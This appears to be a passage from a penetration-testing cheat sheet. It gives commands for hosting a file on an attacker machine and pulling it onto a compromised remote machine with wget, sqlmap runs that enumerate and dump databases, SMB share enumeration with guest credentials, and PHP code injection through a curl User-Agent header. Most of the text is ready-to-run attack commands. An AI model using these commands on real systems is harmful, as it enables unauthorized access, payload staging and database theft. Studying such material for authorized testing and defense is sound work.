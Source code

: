  - ***Sending to remote machine***

```bash
# Hosting a WEB-Server on local machine.
export LIP=xx.xx.xx.xx # Local/Attacker Machine IP.
export LPORT=4444 # Local/Attacker PORT.

# On Local Machine.
cd /path/to/directory # Contains file.txt
python3 -m http.server $LPORT

#On Remote Machine.
wget $LIP:$LPORT/file.txt
```

# Injections

>[!example] Payload
>A list of different SQL injection commands : [SQL-Injection-Payload-List](https://github.com/payloadbox/sql-injection-payload-list)

- ####  Sqlmap :

```bash
# Fetch different databases available.
export URL='http://127.0.0.1:8000/download?id=1'
sqlmap -u $URL -p id --dbs -batch # -u : url, -p : parameter, --dbs : databases

# Run SqlMap based on a burpsuite request.
sqlmap -r sql.req --dbs --dump

# Fetch different tables.
sqlmap -u $URL -p id -D db_name --tables -batch 

# Fetch different table rows.
sqlmap -u $URL -p id -D db_name -T table_name --dump -batch 
```

- ####  SMBmap :

```bash
export IP=xx.xx.xx.xx
export USER='USERNAME' # Can be omitted
export PASS='PASSWORD' # Can be omitted
smbmap -H $IP -u $USER -p $PASS

# Example :
smbmap -u guest -p "" -d . -H 10.0.28.123
```

- #### PHP Injection :

```bash
# Injecting PHP code with curl.
export URL='http://127.0.0.1/'
curl -A 'PHP Command Here' $URL # -A: User-Agent

# Another Alternative.
export PHPFILE='bash.php'
export CMD='echo hello'
php $PHPFILE -u $URL -c $CMD
```
